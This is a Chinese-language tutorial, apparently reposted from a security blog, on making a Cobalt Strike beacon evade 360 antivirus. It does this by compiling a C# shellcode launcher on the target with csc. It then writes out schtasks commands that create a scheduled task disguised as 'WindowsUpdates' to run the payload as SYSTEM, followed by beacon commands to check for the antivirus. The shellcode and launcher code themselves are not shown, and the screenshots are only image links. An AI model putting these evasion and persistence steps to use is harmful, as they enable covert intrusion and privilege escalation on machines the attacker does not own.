



# Cobalt Strike beacon 免杀上线 [ Csharp ]

> 原文：[http://book.iwonder.run/Tools/Cobalt Strike/24.html](http://book.iwonder.run/Tools/Cobalt Strike/24.html)

> 模拟目标环境:
> 
> AV-Server 192.168.3.58 装有最新版 360 套装 [ 卫士 + 杀毒 ] 2008r2 64 位系统
> 
> 首先,创建如下监听器


> 接着,再用上面的监听器生成 64 位 shellcode,因为目标是 64 位系统



> 最终生成的 shellcode 如下

```
# cat bypass.cs 
```


> 然后开始替换 shellcodeLauncher.cs 文件中对应位置的 shellcode,注意那个字节长度要和上面的 shellcode 保持一一对应



> 之后,只需想办法将 shellcodeLauncher.cs 文件丢到目标机器上,再利用其自带的 csc[ 特别注意,此处也要用 64 位目录下的 csc 工具,csc 默认系统是没有的,需要目标机器装有.net 4.0 才行,不过服务器环境一般默认都会装的有] 编译生成对应的 exe payload,实战中记得把这个 exe 文件名改下,由于直接执行 exe payload 会被一直挂起,所以我们可以尝试利用系统计划任务直接弹回一个 system 权限的 beacon shell,有些朋友提到 360 套装会拦截 schtasks,自己在实测中有时候拦了,有时候却没拦,暂时还不大清楚具体原因,虽然直接用 wmic 也可以执行,但 360 百分百会拦截 wmic.exe

```
# C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:shellcodeLauncher.exe shellcodeLauncher.cs
# move shellcodeLauncher.exe c:\Windows\Temp
# schtasks /create /RL HIGHEST /F /ru "SYSTEM" /tn "WindowsUpdates" /tr "c:/Windows/Temp/shellcodeLauncher.exe" /sc DAILY /mo 1 /ST 00:15
# schtasks /run /tn "WindowsUpdates"
# schtasks /query | findstr "WindowsUpdates"
# schtasks /delete /F /tn "WindowsUpdates" 
```



> 最终,启动计划任务后,system 权限的 beacon shell 被正常弹回

```
beacon> sleep 0
beacon> shell tasklist | findstr /c:"explorer.exe" /c:"360"
beacon> shell query user 
```


